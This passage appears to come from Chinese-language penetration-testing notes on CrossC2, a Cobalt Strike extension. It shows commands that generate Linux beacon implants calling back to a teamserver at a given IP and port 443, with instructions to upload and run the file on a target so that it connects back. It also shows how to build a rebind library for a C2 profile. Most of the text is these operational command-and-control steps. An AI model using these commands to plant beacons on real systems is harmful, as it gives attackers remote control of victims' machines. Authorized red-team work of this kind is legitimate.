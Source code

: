 也可以用命令
```
genCrossC2.Win.exe 192.168.141.151 443 ./.cobaltstrike.beacon_keys null Linux x64 test
```

上传 test 文件至目标,加权限运行,目标上线

![](../../../assets/img/Security/安全工具/CobaltStrike/58.png)

参考文章
- https://0x20h.com/p/c02f.html
- https://www.cnblogs.com/micr067/p/13311206.html

**生成 rebind 库**

当 teamserver 配置了 c2profile 时，需要提前生成 rebind 库供生成 beacon 时使用

参考官方的格式
- https://gloxec.github.io/CrossC2/zh_cn/protocol/
- https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/https.profile
- https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/c2profile.c
- https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/proxy_udp.py
- https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/rebind_udp.c

修改完毕后,测试 profile,编译生成
```bash
./c2lint test.profile

# 登录 cs 生成 rebind 库供生成 beacon
gcc test.c -fPIC -shared -o lib_rebind_test.so
```

**直接生成 shell**
```bash
# 登录 cs 生成 shell
./genCrossC2.Linux xx.xx.xx.xx 443 .cobaltstrike.beacon_keys null Linux x64 shell
```
